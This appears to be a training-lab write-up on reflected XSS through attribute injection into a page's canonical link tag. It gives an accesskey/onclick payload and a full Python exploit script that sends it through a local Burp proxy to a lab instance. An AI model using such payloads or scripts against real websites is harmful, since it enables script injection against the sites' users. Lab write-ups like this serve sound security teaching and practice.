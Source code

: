 ```yaml
---
title: 'XSS Lab 17'
description: 'Reflected XSS by injecting attributes into a canonical link tag'
---
```



## Reflected XSS in canonical link tag

<div style="text-align: justify;">
  This lab demonstrates a reflected XSS vulnerability where user input is embedded inside the `<link rel="canonical">` tag of the page. Although angle brackets are escaped, attributes can still be injected. By abusing HTML attribute injection, it is possible to introduce an event handler that triggers JavaScript execution. 
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The canonical `<link>` tag reflects user input without sanitizing attributes.
- Injecting `?%27accesskey=%27x%27onclick=%27alert(1)` adds two attributes: `accesskey='x'` and `onclick='alert(1)'`.
- When a user presses the access key (`X`), Chrome executes the JavaScript in the `onclick` handler.
- Key combinations to trigger:
  - **Windows**: `ALT+SHIFT+X`
  - **macOS**: `CTRL+ALT+X`
  - **Linux**: `Alt+X`

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Check if Burp Suite is running and listening on the configured proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_XSS(url):
    """
    Exploit XSS vulnerability in the category filter parameter.
    """
    session = requests.Session()

    try:
        uri = "/?%27accesskey=%27x%27onclick=%27alert(1)"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()

        base_res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in base_res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

    except requests.RequestException as e:
        print(f"[-] Error while sending request: {e}")
        sys.exit(1)

def main():
    """
    Entry point of the script.
    """
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_XSS(url):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```